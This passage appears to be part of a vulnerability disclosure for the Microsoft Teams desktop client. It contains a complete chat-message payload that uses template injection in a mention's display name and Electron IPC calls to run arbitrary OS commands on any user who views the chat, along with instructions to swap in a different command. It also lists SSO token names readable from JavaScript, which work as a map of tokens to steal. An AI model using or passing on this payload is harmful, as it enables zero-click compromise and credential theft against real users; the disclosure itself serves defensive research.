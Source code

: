 ```http
{"content":"<div><div>\n<div>\n<div>\n<div>\n<div><span itemscope itemtype=\"http://schema.skype.com/Mention\" itemid=\"0\">dada</span></div>\n</div>\n</div>\n</div>\n</div>\n</div>","messagetype":"RichText/Html","contenttype":"text","amsreferences":[],"clientmessageid":"9868848366534370000","imdisplayname":"Oskars Vegeris","properties":{"importance":"","subject":null,"mentions":"[{\"@type\":\"http://schema.skype.com/Mention\",\"itemid\":0,\"tagId\":\"tHab2TLzpa\",\"mri\":\"tHab2TLzpa\",\"mentionType\":\"tag\",\"displayName\":\"x marks the spot{{['if(typeof mentiontime==`undefined`){mentiontime=1;stage1=`data:text/plain,cp=require(\\\"child_process\\\");cp.exec(\\\"open /System/Applications/Calculator.app\\\")`;this.electronSafeIpc.send(`desktopFileDownload`,stage1);this.electronSafeIpc.on(`desktop-file-download-finished`,(_,fileinfo)=>{f=fileinfo.uniqueFile.filePath;stage2=`data:text/html,<webview src=\\\"about:blank\\\" preload=\\\"file:///${f}\\\"></webview>`;this.electronSafeIpc.send(`allowWindowOpenUrl`,stage2);this.w=window.open(stage2);setTimeout(()=>{this.w.close()},2000)})}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}\"}]"}}
```

! note: change the command, currently set for macOS Catalina as `open /System/Applications/Calculator.app`

**no user interaction is required simply visiting a chat will execute arbitrary code.**


# Supporting materials/references:

[1] - Video demos, screenshots

[2] - https://www.electronjs.org/docs/tutorial/security

# SSO / cookie info

## list of SSO token identifiers in localStorage && cookie parameters available from JavaScript in Microsoft Teams

SSO tokens:
```
adal.nonce.idtoken
ts.09ccd856-c12e-4228-acf6-a19af826be77.auth.skype.token
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.4580fd1d-e5a3-4f56-9ad1-aab0e3bf8f76
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.cf53fce8-def6-4aeb-8d30-b158e7b1cf83
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://*.microsoftstream.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://api.spaces.skype.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://chatsvcagg.teams.microsoft.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://emea.presence.teams.microsoft.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming-my.sharepoint.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming-my.sharepoint.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming.sharepoint.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://evolutiongaming.sharepoint.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://forms.office.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://loki.delve.office.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://management.core.windows.net/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://onenote.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://outlook.office.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://outlook.office365.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://outlook.office365.com/connectors
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://presence.teams.microsoft.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://service.powerapps.com/
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://teams.microsoft.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://uis.teams.microsoft.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://web.microsoftstream.com
ts.09ccd856-c12e-4228-acf6-a19af826be77.cache.token.https://whiteboard.microsoft.com
```
